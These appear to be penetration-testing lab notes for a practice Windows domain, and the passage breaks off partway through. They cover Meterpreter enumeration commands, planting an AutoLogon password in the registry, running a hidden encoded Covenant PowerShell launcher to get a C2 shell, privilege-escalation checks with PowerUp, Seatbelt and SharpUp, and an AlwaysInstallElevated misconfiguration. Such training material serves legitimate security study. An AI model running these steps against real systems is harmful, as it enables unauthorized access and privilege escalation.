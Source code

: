 ### With Metasploit
in meterpreter shell:
```powershell
sysinfo
getuid
ipconfig
arp
netstat -ano
run post/windows/gather/enum_services
run post/windows/gather/enum_applications
run post/windows/gather/enum_domains
route
```



## AutoLogon Misconfiguration and Exploitation

### Workstation-01
```bash
# HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon\AutoAdminLogon > set 1

New > String Value > DefaultUserName > set s.chisholm
New > String Value > DefaultPassword > set FallOutBoy1!
New > String Value > DefaultDomainName > set mayorsec
restart the machine
```

### Covenant
```bash
Create a listener with there is not one
Launcher > Powershell > set options > copy the payload
```

### Workstation-01
```powershell
powershell -Sta -Nop -Window Hidden -EncodedCommand "payload from covenant"
this will generate a shell in covenant
```

### In Covenant Shell
```powershell
PowerShellImport > browse > PowerUp.ps1
powershell Invoke-AllChecks
Seatbelt WindowsAutoLogon
SharpUp audit
```


## AlwaysInstallElevated Misconfiguration and Exploitation

Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
```
> set AlwaysInstallElevated to 1
```
